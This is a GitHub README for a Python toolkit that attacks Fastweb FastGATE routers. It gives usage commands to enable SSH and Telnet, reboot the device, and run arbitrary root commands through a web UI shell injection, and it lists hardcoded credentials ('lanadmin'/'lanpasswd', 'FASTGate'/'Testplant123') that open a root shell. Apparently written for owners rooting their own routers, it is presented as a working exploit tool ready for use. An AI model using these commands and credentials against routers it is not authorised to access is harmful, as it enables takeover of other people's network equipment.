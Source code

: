 # FastGATE Python tool
https://github.com/Nimayer/fastgate-toolkit/wiki

Python tools for Fastweb FastGATE exploits.

```
Usage: fastgate [OPTIONS] COMMAND [ARGS]...

Options:
  -h, --host TEXT     IP address or hostname
  -p, --port INTEGER  HTTP port
  --help              Show this message and exit.

Commands:
  check_login  Check web UI authentication.
  get_root     Attempt to enable access to SSH/Telnet.
  reboot       Reboot router.
  shell        Run command on router with shell injection...
```

## Installation

```sh
pip install https://github.com/Depau/fastgate-python/archive/master.zip
```

## Usage

#### Enable SSH and Telnet from local network:

```sh
fastgate get_root
```
You can then SSH to the router. Log in as `lanadmin`, `lanpasswd`.

In the router's custom shell, run the `sh` hidden command and log in as `lanadmin`, `lanpasswd` or `FASTGate`, `Testplant123` to get a root shell.

#### Reboot router

```sh
fastgate reboot
```

#### Run command as root on router (uses web UI shell injection, no output)

```sh
fastgate shell (command)
# i.e.
fastgate shell /usr/sbin/rc_task firewall restart
fastgate shell /usr/sbin/rc_task sshd restart
```

#### Check web UI login

```sh
fastgate check_login --u username -p password
```
or simply
```sh
fastgate check_login
```
(you will be prompted for login info)

# Credits

- @Nimayer https://github.com/Nimayer/fastgate-toolkit
